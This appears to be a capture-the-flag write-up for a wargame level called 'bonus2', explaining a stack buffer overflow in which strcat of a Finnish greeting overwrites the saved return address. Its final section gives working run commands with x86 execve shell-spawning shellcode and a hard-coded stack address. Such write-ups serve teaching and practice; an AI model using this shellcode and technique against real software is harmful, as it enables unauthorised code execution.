 # BONUS2

## EXPLANATIONS

### BINARY BEHAVIOR

- program takes two arguments
  - stores argv1 first 40 characters into a stack buffer (buf1)
  - stores argv2 first 32 characters into buf1 + 40
    - (contiguous, no \0 between the argv1 and argv2 storage)
- random argv1 string (length >= 40) and argv2 (length >= 32) leads to a segmentation fault

  - => sEIP must be overwritten

- retrieves value of LANG env variable and sets a flag accordingly

  - if "fi" => flag = 1
  - if "nl" => flag = 2
  - else => flag = 0

- greetuser function will modify the greeting string depending on the flag value

  - 0 => "Hello "
  - 1 => "Hyvää päivää "
  - 2 => "Goedemiddag! "

- a strcat is performed on greeting string + buf
  - when greeting string is "Hello ", sEIP is partially overwritten with buf content.

### EXPLOIT STRATEGY

- change the LANG env variable to fi so that strcat fully overwrites sEIP of greetuser function
- change sEIP stack value to start of buf
  - => with buf containing our shellcode
- To be able to perform the exploit on a stack buffer, we aligned GDB and noGDB stack addresses.

### RUN COMMAND

```
python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + 'A' * 15)" > /tmp/argv1_string
python -c "print('B' * 18 + '\xbf\xff\xfc\xf2'[::-1])" > /tmp/argv2_string
export LANG=fi
env - PWD=$PWD LANG=$LANG /home/user/bonus2/bonus2 $(cat /tmp/argv1_string) $(cat /tmp/argv2_string)
```
